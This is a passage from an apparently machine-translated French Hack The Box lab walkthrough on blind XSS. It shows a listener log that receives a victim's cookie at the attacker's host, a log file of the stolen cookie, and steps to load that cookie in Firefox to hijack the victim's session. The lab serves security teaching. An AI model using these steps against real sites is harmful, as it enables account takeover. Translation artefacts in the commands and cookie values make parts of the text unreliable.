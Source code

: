 ```
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```

Comme mentionné précédemment, nous obtenons la valeur des cookies dans le terminal, comme nous pouvons le voir. Cependant, depuis que nous avons préparé un script PHP, nous obtenons également le fichier `cookies.txt` avec un journal propre de cookies:

```
dsgsec @ htb [/ htb] $ Cat cookies.txt
IP de victime: 10.10.10.1 | Cookie: Cookie = F904F93C949D19D870911BF8B05FE7B2
```

Enfin, nous pouvons utiliser ce cookie sur la page «Login.php» pour accéder au compte de la victime. Pour ce faire, une fois que nous naviguons vers `/ hijacking / login.php`, nous pouvons cliquer sur` Shift + F9` dans Firefox pour révéler la barre `` Storage 'dans les outils du développeur. Ensuite, nous pouvons cliquer sur le bouton `+` dans le coin supérieur droit et ajouter notre cookie, où le `Name` est la partie avant` = `et la` valeur 'est la pièce après `=` de notre cookie volé:

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_set_cookie_2.jpg)

Une fois que nous aurons réglé notre cookie, nous pouvons actualiser la page et nous aurons accès comme victime:

![](https://academy.hackthebox.com/storage/modules/103/xss_blind_hijacked_session.jpg)